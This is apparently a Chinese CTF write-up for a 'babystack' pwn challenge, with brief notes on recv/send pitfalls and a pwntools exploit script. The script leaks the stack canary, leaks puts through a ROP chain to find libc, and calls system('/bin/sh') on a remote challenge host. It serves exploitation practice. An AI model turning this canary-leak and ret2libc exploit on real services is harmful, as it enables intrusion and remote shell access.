 这题主要是recv puts地址的时候要注意，数据是否截取多了/少了，因为会影响计算别的函数/字符串。
还有就是send和sendline和sendlineafter；recv和recvuntil对程序、执行exp的影响...

## pwn1

这题好迷...本地打通，远程打不通；远程打通，本地打不通（换过libc）

```py
from pwn import *
#context.log_level = "debug"
p = remote("220.249.52.133", 43763)
#p = process("./babystack")
elf = ELF("./babystack")
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")# local
libc = ELF("./libc.so") #remote
stack = "a"*0x88

p.sendlineafter(">> ","1")
p.sendline(stack)
p.sendlineafter(">> ","2")
p.recvuntil("\n")
canary = u64(p.recv(7).rjust(8,'\x00'))
print hex(canary)

init = 0x00400908
pop_rdi = 0x0400a93
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

leak_addr = stack + p64(canary) + "1"*8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(init)
p.sendlineafter(">> ","1")

p.send(leak_addr)

p.sendlineafter(">> ","3")#????	& rjust||ljust

puts_addr=u64(p.recv(6).ljust(8,'\x00'))

p.sendlineafter(">> ","1")

system_addr = 	0x045390
binsh_addr = 	0x18cd57
offset = puts_addr - libc.symbols["puts"]
system = offset + libc.symbols["system"]
binsh = offset + binsh_addr

payload2 = stack + p64(canary) + "1"*8 + p64(pop_rdi) + p64(binsh) + p64(system) + p64(init)

p.sendline(payload2)

p.sendlineafter(">> ","3")

p.interactive()
```
